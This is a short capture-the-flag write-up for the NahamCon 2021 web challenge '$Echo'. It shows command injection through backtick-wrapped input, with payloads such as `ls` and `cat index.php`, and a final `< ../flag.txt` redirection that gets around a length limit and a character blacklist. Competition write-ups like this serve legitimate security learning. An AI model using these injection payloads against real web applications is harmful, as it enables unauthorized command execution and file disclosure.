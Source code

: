 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2021 | $Echo Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2021
parent: nahamcon_2021
category: web
challenge: $Echo
tags: "web, rce"
date: 2021-03-15T00:00:00+00:00
last_update: 2021-03-15T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2021</h1>

## $Echo

It is simple command injection
in the input box we can use ` characters 

```
`id`
```

all commands have to be enclosed in `` chars

now if we list files using
```
`ls`
``` 
we can see `index.php` when we 
```
`cat index.php`
```
we can see the code!
certain characters are `blacklisted`  we can only enter command less that `15` chars
but there is no `flag.txt` here, if we simply execute 
```
`ls ../`
```
then we can see flag.txt
```
`cat ../flag.txt`
```
fails because length of payload exceeds 15

payload to get flag : 

**linux redirection character! `<` is NOT blacklisted!**
```
`< ../flag.txt`
```

